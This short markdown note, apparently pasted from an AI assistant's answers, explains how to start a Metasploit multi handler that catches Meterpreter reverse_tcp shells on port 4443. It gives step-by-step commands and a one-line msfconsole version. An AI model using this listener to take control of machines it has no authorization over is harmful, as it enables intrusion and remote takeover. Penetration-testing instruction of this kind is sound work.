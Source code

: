 Using a Meterpreter multi handler shell in Metasploit is a great idea for catching multiple shells when running your tests! Metasploit's `exploit/multi/handler` module is designed to handle incoming connections from various payloads, including Meterpreter. This allows you to manage multiple sessions simultaneously and interact with them through the Meterpreter interface.

Here's a basic example of how to set up a multi handler shell in Metasploit:

1. **Start Metasploit:**
   ```bash
   msfconsole
   ```

2. **Use the multi handler module:**
   ```bash
   use exploit/multi/handler
   ```

3. **Set the payload:**
   ```bash
   set PAYLOAD linux/x64/meterpreter/reverse_tcp
   ```

4. **Set the local host and port:**
   ```bash
   set LHOST 0.0.0.0
   set LPORT 4443
   ```

5. **Prevent exiting on session creation:**
   ```bash
   set EXITONSESSION false
   ```

6. **Run the handler:**
   ```bash
   exploit -j
   ```

This will start a handler that listens for incoming Meterpreter connections on the specified port and handles multiple sessions.



# Meterpeter one-liner

Absolutely! You can use the following one-liner command to set up a Meterpreter multi handler shell with Metasploit:

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4443; set EXITONSESSION false; exploit -j"
```

This command does the following:
1. Starts Metasploit in quiet mode (`-q`).
2. Uses the `exploit/multi/handler` module.
3. Sets the payload to `linux/x64/meterpreter/reverse_tcp`.
4. Sets `LHOST` to listen on all interfaces.
5. Sets `LPORT` to 4443.
6. Configures the handler to not exit on session creation (`EXITONSESSION false`).
7. Runs the handler in the background (`-j`).

This way, you can quickly start a Meterpreter multi handler shell in a single line.
